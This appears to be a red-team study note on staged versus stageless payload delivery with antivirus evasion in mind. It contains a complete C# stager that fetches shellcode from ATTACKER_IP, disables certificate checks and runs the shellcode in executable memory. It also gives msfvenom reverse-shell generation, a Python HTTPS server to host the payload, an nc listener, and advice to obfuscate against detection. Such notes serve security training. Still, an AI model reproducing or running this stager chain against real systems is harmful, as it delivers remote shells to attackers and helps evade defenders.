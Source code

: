 ```yaml
---
{"dg-publish":true,"permalink":"/cards/red-team/staged-and-stageless/","tags":["red-team/host-evasion"]}
---
```


~ [[cards/red-team/Evading Antivirus - Shellcode\|Evading Antivirus - Shellcode]]
### Introduction
---
This is how we deliver our final payload, there are two types one is **staged** and the other one is **stageless**, the difference is

- **Stageless** the [[cards/blue-team/malware-analysis/Analyzing Shellcode - Malware\|shellcode]] (payload) is embedded to itself, it's similar to a packaged app, the user opens the package then gets the 'reward'. A single step process.

- **Staged** it uses intermediary shellcode (payload) that leads to the execution of the final shellcode. Each of these 'intermediary' shellcodes is known as **stager** with a sole purpose of retrieving the final shellcode.
	- First stage (or the intermediary shellcode) is usually referred to as **stage0**.
	- Do note it's not limited to first stage then final payload - it could have many stages.

```staged
1. User Executes Payload -> 2. Retrieve FinalShell Code from Attacker ->
3.Load and execute final shellcode in memory -> 4. Send reverse shell
```


#### Key Topics
---
## Prerequisites
---
- [[cards/windows/Windows Internals\|Windows Internals - Processes, threads, Virtual Memory, and more.]]
- [[cards/red-team/Evading Antivirus - Shellcode\|Evading Antivirus - Shellcode]]
- [[cards/windows/Windows API\|Windows API]] 
## Why Stageless When Staged?
---

**Stageless**

- Attacking a host with very restricted network connectivity. Great to have fewer network detection
- Has a lot of perimeter security - see [[cards/red-team/Lay off the Land\|Lay off the Land]] to enumerate a host.

**Staged**

- Small footprint on disk - since **stage0** is only in charge of downloading the finalshellcode, it will most likely be small in size.
- **Final shellcode** isn't embedded into the executable - Blue team will only have access to the stage0 and nothing more. Useful for red teaming or a must 'hack' infrastructure.
- stage0 can simply be reused but it is recommended to change it up a little bit as security tools regularly scans for patterns.

So in summary:

- For _closed or heavily monitored environments_, **stageless** makes sense.
- For _persistent, stealthy campaigns_, **staged** with a well-crafted Stage0 and obfuscated final stage is often the better choice.

### Stagers in Metasploit
---
In metasploit, we can identify a stager and a stageless via the `_` and `/`:

| **Payload**                   | **Type**          |
| ----------------------------- | ----------------- |
| windows/x64/shell_reverse_tcp | Stageless payload |
| windows/x64/shell/reverse_tcp | Staged payload    |
## Basic Stager 
---
Here is a stager code, note it's best to add some obfuscation or any thing that can prevent pattern detection:

```csharp
using System;
using System.Net;
using System.Text;
using System.Configuration.Install;
using System.Runtime.InteropServices;
using System.Security.Cryptography.X509Certificates;

public class Program {
  //https://docs.microsoft.com/en-us/windows/desktop/api/memoryapi/nf-memoryapi-virtualalloc 
  [DllImport("kernel32")]
  private static extern UInt32 VirtualAlloc(UInt32 lpStartAddr, UInt32 size, UInt32 flAllocationType, UInt32 flProtect);

  //https://docs.microsoft.com/en-us/windows/desktop/api/processthreadsapi/nf-processthreadsapi-createthread
  [DllImport("kernel32")]
  private static extern IntPtr CreateThread(UInt32 lpThreadAttributes, UInt32 dwStackSize, UInt32 lpStartAddress, IntPtr param, UInt32 dwCreationFlags, ref UInt32 lpThreadId);

  //https://docs.microsoft.com/en-us/windows/desktop/api/synchapi/nf-synchapi-waitforsingleobject
  [DllImport("kernel32")]
  private static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

  private static UInt32 MEM_COMMIT = 0x1000;
  private static UInt32 PAGE_EXECUTE_READWRITE = 0x40;

  public static void Main()
  {
    string url = "https://ATTACKER_IP/shellcode.bin";
    Stager(url);
  }

  public static void Stager(string url)
  {

    WebClient wc = new WebClient();
    ServicePointManager.ServerCertificateValidationCallback = delegate { return true; };
    ServicePointManager.SecurityProtocol = SecurityProtocolType.Tls12;

    byte[] shellcode = wc.DownloadData(url);

    UInt32 codeAddr = VirtualAlloc(0, (UInt32)shellcode.Length, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    Marshal.Copy(shellcode, 0, (IntPtr)(codeAddr), shellcode.Length);

    IntPtr threadHandle = IntPtr.Zero;
    UInt32 threadId = 0;
    IntPtr parameter = IntPtr.Zero;
    threadHandle = CreateThread(0, 0, codeAddr, parameter, 0, ref threadId);

    WaitForSingleObject(threadHandle, 0xFFFFFFFF);

  }
}
```

Breaking down the code:

Importing functions from `kernel32.dll`: (`VirtualAlloc`, `CreateThread`, `WiatForSingleObject`):

![Staged and Stageless.png](/img/user/cards/red-team/images/Staged%20and%20Stageless.png)

The second most important part is the `Stager()` function:

![Staged and Stageless-1.png](/img/user/cards/red-team/images/Staged%20and%20Stageless-1.png)

- `Webclient` allows us to download a shellcode using web request.
- `ServiceCertificateValidationCallback` allows us to download files from a server with self-signed or invalid certificate.
- `DownloadData` well it downloads I guess???? then stores it into the shell code var.

![Staged and Stageless-2.png](/img/user/cards/red-team/images/Staged%20and%20Stageless-2.png)

- `VirtualAlloc` copy the shell code into the executable memory by requesting a memory block from the OS -- notice the use of `shellcode.length` and we make the memory executable, readable and writable via `PAGE_EXECUTE_READWRITE`.
- Copy the contents of the shellcode into the var `codeAddr` via `Marshal.Copy` function.

![Staged and Stageless-3.png](/img/user/cards/red-team/images/Staged%20and%20Stageless-3.png)

- `CreateThread` to spawn a new thread on the current process that will execute our shellcode.
- The third parameter passed to CreateThread points to `codeAddr`, where our shellcode is stored, so that when the thread starts, it runs the contents of our shellcode.
- The fifth parameter is set to **0** which means the thread will start immediately.
- Once the thread is created, call the `WaitForSingleObject()` function to instruct our current program that it has to wait for the thread execution to finish before continuing. This prevents our program from closing before the shellcode thread gets a chance to execute.

### Running our Stager to get a reverse shell
---
Make sure to change the URL in the stager0 code then compile with:

```C
csc staged-payload.cs
```

At the attacker's box generate a simple reverse shell:

```C
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=7474 -f raw -o shellcode.bin -b '\x00\x0a\x0d'
```

Creating a simple self-signed certificate for our HTTPs server:

```C
openssl req -new -x509 -keyout localhost.pem -out localhost.pem -days 365 -nodes
```

Then hosting our payload by running a simple HTTPs server with python:

```C
python3 -c "import http.server, ssl;server_address=('0.0.0.0',443);httpd=http.server.HTTPServer(server_address,http.server.SimpleHTTPRequestHandler);httpd.socket=ssl.wrap_socket(httpd.socket,server_side=True,certfile='localhost.pem',ssl_version=ssl.PROTOCOL_TLSv1_2);httpd.serve_forever()"
```

Then listening for reverse shell connections:

```C
nc -lvp 7474
```

Then:

![Staged and Stageless-4.png](/img/user/cards/red-team/images/Staged%20and%20Stageless-4.png)
